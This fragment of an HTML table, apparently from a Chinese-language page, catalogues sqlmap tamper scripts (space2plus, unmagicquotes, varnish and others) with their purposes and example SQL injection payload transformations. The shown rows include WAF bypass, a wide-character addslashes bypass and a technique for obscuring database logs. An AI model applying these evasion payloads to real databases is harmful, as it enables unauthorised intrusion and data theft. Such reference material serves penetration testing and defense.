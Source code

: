       <td style="text-align:left">&#x7528;[&#x5B57;&#x7B26;# +&#x4E00;&#x4E2A;&#x6362;&#x884C;&#x7B26;]&#x66FF;&#x6362;payload&#x4E2D;&#x7684;&#x7A7A;&#x683C;</td>
      <td
      style="text-align:left">union select 1,2--+ ==&gt; union%23%0Aselect%23%0A1,2--+</td>
    </tr>
    <tr>
      <td style="text-align:left">space2plus.py</td>
      <td style="text-align:left">&#x7528;&#x52A0;&#x53F7;(+)&#x66FF;&#x6362;&#x7A7A;&#x683C;</td>
      <td style="text-align:left">SELECT id FROM users ==&gt; SELECT+id+FROM+users</td>
    </tr>
    <tr>
      <td style="text-align:left">space2randomblank.py</td>
      <td style="text-align:left">&#x7528;&#x968F;&#x673A;&#x7684;&#x7A7A;&#x767D;&#x7B26;&#x66FF;&#x6362;payload&#x4E2D;&#x7684;&#x7A7A;&#x683C;</td>
      <td
      style="text-align:left">SELECT id FROM users ==&gt; SELECT%0Did%0DFROM%0Ausers</td>
    </tr>
    <tr>
      <td style="text-align:left">sp_password.py</td>
      <td style="text-align:left">&#x5728;payload&#x8BED;&#x53E5;&#x540E;&#x6DFB;&#x52A0; sp_password &#xFF0C;&#x7528;&#x4E8E;&#x8FF7;&#x60D1;&#x6570;&#x636E;&#x5E93;&#x65E5;&#x5FD7;&#xFF08;Space
        ==&gt; sp_password&#xFF09;</td>
      <td style="text-align:left">1 AND 9227=9227-- ==&gt; 1 AND 9227=9227 -- sp_password</td>
    </tr>
    <tr>
      <td style="text-align:left">symboliclogical.py</td>
      <td style="text-align:left">&#x7528; &amp;&amp; &#x66FF;&#x6362; and &#xFF0C;&#x7528; || &#x66FF;&#x6362;
        or &#xFF0C;&#x7528;&#x4E8E;&#x8FD9;&#x4E9B;&#x5173;&#x952E;&#x5B57;&#x88AB;&#x8FC7;&#x6EE4;&#x7684;&#x60C5;&#x51B5;</td>
      <td
      style="text-align:left">
        <p>1 and 1=1 ==&gt; 1 %26%26 1=1</p>
        <p>1 or 1=1 ==&gt; 1 %7c%7c 1=1</p>
        </td>
    </tr>
    <tr>
      <td style="text-align:left">unionalltounion.py</td>
      <td style="text-align:left">&#x7528; union select &#x66FF;&#x6362;union all select</td>
      <td style="text-align:left">union all select 1,2--+ ==&gt; union select 1,2--+</td>
    </tr>
    <tr>
      <td style="text-align:left">unmagicquotes.py</td>
      <td style="text-align:left">&#x7528;&#x5BBD;&#x5B57;&#x7B26;&#x7ED5;&#x8FC7; GPC addslashes</td>
      <td
      style="text-align:left">1&apos; and 1=1 ==&gt; 1%df%27 and 1=1--</td>
    </tr>
    <tr>
      <td style="text-align:left">uppercase.py</td>
      <td style="text-align:left">&#x5C06;payload&#x4E2D;&#x7684;&#x5C0F;&#x5199;&#x5B57;&#x6BCD;&#x8F6C;&#x4E3A;&#x5927;&#x5199;&#x683C;&#x5F0F;</td>
      <td
      style="text-align:left">insert ==&gt; INSERT</td>
    </tr>
    <tr>
      <td style="text-align:left">varnish.py</td>
      <td style="text-align:left">&#x6DFB;&#x52A0;&#x4E00;&#x4E2A;HTTP&#x5934;&#x201C; X-originating-IP
        &#x201D;&#x6765;&#x7ED5;&#x8FC7;WAF</td>
      <td style="text-align:left">headers = kwargs.get(&quot;headers&quot;, {})headers[&quot;X-originating-IP&quot;]
        = &quot;127.0.0.1&quot;return payload</td>
    </tr>
    <tr>
      <td style="text-align:left">versionedkeywords.py</td>